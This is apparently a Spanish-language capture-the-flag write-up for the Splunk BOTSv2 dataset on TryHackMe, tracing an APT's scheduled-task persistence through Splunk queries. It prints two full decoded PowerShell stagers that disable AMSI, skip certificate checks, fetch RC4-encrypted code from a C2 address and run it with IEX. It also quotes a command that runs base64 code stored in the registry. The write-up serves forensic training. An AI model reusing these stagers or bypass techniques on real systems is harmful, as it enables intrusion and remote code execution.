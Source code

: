 
Pregunta 7: To maintain persistence in the Frothly network, Taedonggang APT configured several Scheduled Tasks to beacon back to their C2 server. What single webpage is most contacted by these Scheduled Tasks? Answer example: index.php or images.html

En Windows los Sceduled Tasks se llevan a cabo a través de [schtasks.exe](https://docs.microsoft.com/es-es/windows-server/administration/windows-commands/schtasks). Así que empiezo filtrando por ahí.

```
index="botsv2" schtasks.exe
```

103 resultados. Generalmente, si se ejecuta algún comando mediante la terminal, se loguea mediante los eventos de Sysmon. Además, quiero pensar que el comando se ejecuta con Powershell. Es decir:

```
index="botsv2" schtasks.exe source="WinEventLog:Microsoft-Windows-Sysmon/Operational powershell.exe"
```

Aparecen 3 resultados. En el apartado de data aparece:

```
C:\Windows\System32\WindowsPowershell\v1.0\powershell -noP -sta -w 1 -enc  WwBSAGUARgBdAC4AQQBTAHMARQBNAGIATABZAC4ARwBlA...
#continua
```

Si hacemos un decode de la data con base64, el resultado es:

```
[ReF].ASsEMbLY.GeTTYpe('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GEtFIEld('amsiInitFailed','NonPublic,Static').SEtVaLuE($NULl,$trUE)};[SYstEM.Net.SERviCePoINtMAnAGer]::EXpEct100ContInuE=0;$Wc=NeW-Object SyStEM.NeT.WeBCLIent;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};$WC.HEaDers.Add('User-Agent',$u);$WC.ProxY=[SYstEm.Net.WEBREQUest]::DeFaulTWEBPROxY;$Wc.ProxY.CReDenTiaLs = [SysTem.NeT.CredEntIAlCache]::DefAultNeTWorkCrEDeNTIAls;$K=[SysTem.TexT.EncODING]::ASCII.GetBytes('389288edd78e8ea2f54946d3209b16b8');$R={$D,$K=$ArGS;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.COunT])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bXOr$S[($S[$I]+$S[$H])%256]}};$wc.HEADeRs.AdD("Cookie","session=MvCdddPqFQ54VL4OWU5ryRTUir8=");$ser='https://45.77.65.211:443';$t='/admin/get.php';$dAtA=$WC.DOwnlOaDDatA($SER+$t);$Iv=$DATA[0..3];$dATA=$DaTA[4..$DatA.LeNgTh];-join[ChAR[]](& $R $DATA ($IV+$K))|IEX
```

/admin/get.php no es la respuesta correcta para TryHackme. Así que pruebo de nuevo. Hay otro resultado que apunta a `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c "IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKLM:\Software\Microsoft\Network debug).debug)))`. Por tanto, busco ahora en el WinRegistry por ese registro:

```
index="botsv2" "Software\\Microsoft\\Network" source=WinRegistry
```

Y el resultado es otro diferente, que decodifico con base64 y ahora me encuentro con /news.php. Tampoco es la respuesta. Hay más registros, así que los pruebo todos y este es el correcto:

```
[REF].ASSeMbly.GETTYPE('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GEtFiElD('amsiInitFailed','NonPublic,Static').SeTVaLUE($nULl,$trUE)};[SYSTem.NEt.SErVicePoiNtMaNAgeR]::ExPECT100COntInuE=0;$WC=NEw-ObjECt SySTEm.Net.WeBCLiENT;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};$wC.HeAders.ADD('User-Agent',$u);$wc.PrOXy=[SystEm.NET.WebReQUeST]::DEFauLtWebPROXy;$Wc.ProXy.CREdEntIals = [SysteM.Net.CrEdeNTIAlCAche]::DEFaULTNETWOrKCredEntiAlS;$K=[SystEM.TeXt.EncOdINg]::ASCII.GetBytEs('389288edd78e8ea2f54946d3209b16b8');$R={$D,$K=$ARGS;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.Count])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-BxoR$S[($S[$I]+$S[$H])%256]}};$Wc.HEADERs.ADd("Cookie","session=fv/ijFXJQVAkasZQRTqeo2/cnrE=");$ser='https://45.77.65.211:443';$t='/login/process.php';$data=$WC.DoWNloadDAta($ser+$t);$iV=$dATa[0..3];$dAta=$DAta[4..$dAtA.Length];-jOIn[CHAR[]](& $R $dAta ($IV+$K))|IEX
```

Es decir, respuesta : `process.php`.